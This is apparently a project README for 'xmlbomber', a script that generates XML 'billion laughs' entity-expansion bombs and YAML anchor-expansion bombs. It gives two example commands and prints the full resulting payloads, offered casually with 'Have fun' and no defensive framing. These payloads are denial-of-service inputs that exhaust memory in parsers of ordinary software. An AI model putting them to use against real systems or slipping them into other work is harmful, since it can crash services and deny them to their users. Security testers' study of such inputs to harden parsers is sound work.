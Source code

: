 ***

<h1 align="center">
	<b>xmlbomber</b>
</h1>
<h3 align="center">
	<i>script to create a XML or YAML bomb</i>
</h3>

Example:  
``` 
$ xmlbomber.py -e 7 -r 12 -n "hi" -c "boom" xml
```
```xml
<?xml version="1.0">
<!DOCTYPE hi [
  <!ENTITY 0 "boom">
  <!ENTITY 1 "&0; &0; &0; &0; &0; &0; &0; &0; &0; &0; &0; &0">
  <!ENTITY 2 "&1; &1; &1; &1; &1; &1; &1; &1; &1; &1; &1; &1">
  <!ENTITY 3 "&2; &2; &2; &2; &2; &2; &2; &2; &2; &2; &2; &2">
  <!ENTITY 4 "&3; &3; &3; &3; &3; &3; &3; &3; &3; &3; &3; &3">
  <!ENTITY 5 "&4; &4; &4; &4; &4; &4; &4; &4; &4; &4; &4; &4">
  <!ENTITY 6 "&5; &5; &5; &5; &5; &5; &5; &5; &5; &5; &5; &5">
  <!ENTITY 7 "&6; &6; &6; &6; &6; &6; &6; &6; &6; &6; &6; &6">
  <!ENTITY start "&7;">
]>
<hi>&start;</hi>
```
***
```
$ xmlbomber.py -e 5 -r 7 -c "boom" yaml
```
```yaml
0: &0 ["boom", "boom", "boom", "boom", "boom", "boom", "boom"]
1: &1 [*0, *0, *0, *0, *0, *0, *0]
2: &2 [*1, *1, *1, *1, *1, *1, *1]
3: &3 [*2, *2, *2, *2, *2, *2, *2]
4: &4 [*3, *3, *3, *3, *3, *3, *3]
5: &5 [*4, *4, *4, *4, *4, *4, *4]

```

### Have fun